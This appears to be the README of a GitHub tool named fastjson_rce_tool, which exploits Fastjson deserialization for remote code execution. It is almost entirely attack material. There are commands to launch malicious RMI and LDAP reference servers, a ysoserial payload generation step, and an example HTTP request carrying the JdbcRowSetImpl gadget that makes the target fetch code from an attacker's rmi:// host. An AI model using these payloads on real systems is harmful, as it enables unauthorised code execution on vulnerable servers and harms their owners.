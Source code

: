 # fastjson_rce_tool

```
rmi:
java -cp fastjson_tool.jar EvilRMIServer 1099 53 "curl .cn"


ladp:
1.
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

2.
java -jar ysoserial6.jar URLDNS 'http://wyzxxz.cn'|base64 > base64_payload_file
java -cp fastjson_tool.jar LDAPRefServer2 8888  base64_payload_file

```

example：

```
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Object","autoCommit":true}
```


![0](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/work.png)

![1](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/2.png)

